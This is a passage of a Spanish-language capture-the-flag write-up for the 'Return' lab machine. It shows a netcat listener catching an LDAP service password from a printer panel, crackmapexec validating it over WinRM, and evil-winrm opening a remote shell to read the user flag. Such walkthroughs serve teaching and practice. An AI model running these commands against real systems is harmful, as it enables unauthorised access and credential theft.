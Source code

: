 Una vez le damos Update nos llega una credencial 

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.108] 58509
0*`%return\svc-printer�
                       1edFg43012!!^C
```

con la herramienta crackmapexec vemos que es una credencial valida para el usuario

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
WINRM       10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
WINRM       10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

Así que vamos a iniciar sesión con la herramienta evil-winrm y de esta manera tenemos la primera flag de usuario

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> dir

    Directory: C:\Users\svc-printer\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/19/2022   7:56 AM             34 user.txt

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
08976a********************4cf015
*Evil-WinRM* PS C:\Users\svc-printer\Desktop>
```

Vemo que podemos ingresar al directorio del Administrador, pero no podemos leer la flag
